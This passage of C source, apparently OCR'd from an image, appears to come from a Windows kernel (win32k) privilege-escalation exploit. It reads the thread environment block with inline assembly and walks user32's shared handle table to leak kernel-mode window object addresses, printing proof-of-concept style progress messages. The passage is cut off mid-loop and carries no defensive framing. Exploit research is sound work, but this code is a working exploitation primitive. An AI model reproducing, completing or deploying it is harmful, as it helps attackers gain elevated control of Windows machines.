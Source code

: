     ULONG_PTR DefWindowMsgs;     // Not in XP
    ULONG_PTR DefWindowSpecMsgs; // Not in XP
} SHAREDINFO, *PSHAREDINFO;

void *Get__Win32ClientInfo()
{
    /*
   +0x1d4 GdiTebBatch      : _GDI_TEB_BATCH
   +0x6b4 RealClientId     : _CLIENT_ID
   +0x6bc GdiCachedProcessHandle : Ptr32 Void
   +0x6c0 GdiClientPID     : Uint4B
   +0x6c4 GdiClientTID     : Uint4B
   +0x6c8 GdiThreadLocalInfo : Ptr32 Void
   +0x6cc Win32ClientInfo  : [62] Uint4B
   */
    void *address = NULL;
    __asm
    {
	mov     eax,dword ptr fs:[00000018h] // eax=TEB
        mov     eax,dword ptr [eax+0x6cc] // Win32ClientInfo
	mov	  address,eax;
    }
    return address;
}

CHAR originalCLS[0x5c + 2];

HWND GetKernelHandle(HWND hwnd)
{
    HWND kernelWindowHandle;
    ULONG i;
    HMODULE hUser32;
    PSHAREDINFO pSharedInfo;
    PSERVERINFO pServerInfo;
    HANDLEENTRY *UserHandleTable;

    pSharedInfo = (PSHAREDINFO)GetProcAddress(LoadLibraryA("user32.dll"), "gSharedInfo");
    if (pSharedInfo == NULL)
    {
        printf("[-] Unable to locate SharedInfo");
        return NULL;
    }
    else
    {
        printf("[*] SharedInfo @ %#p\r\n", pSharedInfo);
    }

    UserHandleTable = pSharedInfo->aheList;
    printf("[*] aheList @ %#p\r\n", UserHandleTable);

    pServerInfo = pSharedInfo->psi;
    printf("[*] pServerInfo @ %#p\r\n", pServerInfo);
    printf("[*] Handle Count: %d\r\n", pServerInfo->cHandleEntries);
    // printf("User Delta 0x%p\r\n", pSharedInfo->ulSharedDelta); Not used

    for (i = 0; i < pServerInfo->cHandleEntries; i++)
    {
        __try
        {
            //
            kernelWindowHandle = (HWND)(i | (UserHandleTable[i].wUniq << 0x10));
            if (kernelWindowHandle == hwnd)
            {
                kernelWindowHandle = (HWND)UserHandleTable[i].phead;
                printf("[+] Kernel Window Handle found %p\r\n", kernelWindowHandle);
                return kernelWindowHandle;
            }